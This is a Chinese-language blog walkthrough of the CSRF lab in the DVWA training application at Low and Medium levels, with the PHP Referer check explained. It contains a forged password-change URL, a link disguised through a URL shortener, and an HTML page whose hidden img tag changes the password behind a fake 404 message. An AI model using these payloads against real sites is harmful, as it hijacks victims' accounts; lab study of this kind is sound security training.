 ```yaml
---
title: dvwa--CSRF
tags:
  - DVWA
categories:
  - 学习
  - web安全
  - DVWA
abbrlink: 4161e8ef
date: 2022-04-14 16:44:50
---
```




## 简介

CSRF是一种攻击，它迫使最终用户在当前已通过身份验证的web应用程序上执行不想要的操作。借助一点社会工程的帮助(例如通过电子邮件/聊天发送链接)，攻击者可能会迫使web应用程序的用户执行攻击者所选择的操作。

一个成功的CSRF攻击可以在正常用户的情况下损害最终用户数据和操作。如果目标终端用户是管理员帐户，这可能会危及整个web应用程序。

这种攻击也可以称为“XSRF”，类似于“跨站点脚本编写(XSS)”，它们经常一起使用。



## CSRF与XSS区别

CSRF是借助用户的权限完成攻击，攻击者并没有拿到用户的权限。目标构造修改个人信息的链接，利用lucy在登录状态下点击此链接达到修改信息的目的。
XSS直接盗取了用户的权限，然后实施破坏。攻击者利用XSS盗取了目标的Cookie，登录lucy的后台，再修改相关信息。



## Low级

### 解析

```php
stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```

stripos() ：数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。

HTTP Referer：是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。

SERVER_NAME：是要访问的主机名

过滤规则为http包头的Referer参数的值中是否包含主机名



### 过程



伪造链接

http://192.168.224.135/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#



一旦用户点击链接，就会出现红字：提示密码改变了

![1](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164025.png)

这样我们就成功地将密码更改为password了
当然，我们可以将链接修饰一下，毕竟这样一看就能看出来。
比如我们可以在网上找一个短链接生成器

![2](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164031.png)

得到这个链接：http://5l8.cn/ffHx0

伪装一下：[Change](http://5l8.cn/ffHx0)



也可以构造一个html界面

```html
<img src="http://192.168.224.135/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#" border="0"style="display:none;"/>
<h1>404<h1>
<h2>file not found.<h2>
```



![3](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164034.png)_看似是一个失效界面，实际已经改掉了密码。_



## Medium级

### 解析

与low难度一样，没有token，这时候，我们可以看一下源代码比起low级多了

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
```



```stripos() ```函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
```HTTP Referer```是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。
```SERVER_NAME```是要访问的主机名
过滤规则为http包头的Referer参数的值中是否包含主机名





### 过程

抓包

![4](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164039.png)

会发现有一栏Referer，就是该页面的url

```	Referer: http://192.168.224.135/dvwa/vulnerabilities/csrf/	```

开启抓包拦截、接着使用此前构造的链接尝试会发现报文里没有REferer


http://192.168.224.135/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#


![5](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164042.png)

我们在报文里加上，然后放行

![6](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164044.png)

提示密码修改成功

![7](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/CSRF--dvwa/20220414164046.png)



## High级&Impossible级

略







注：教程来自[_[【DVWA全攻略】DVWA CSRF 实验-FancyPig's blog ](https://www.iculture.cc/cybersecurity/pig=243)_

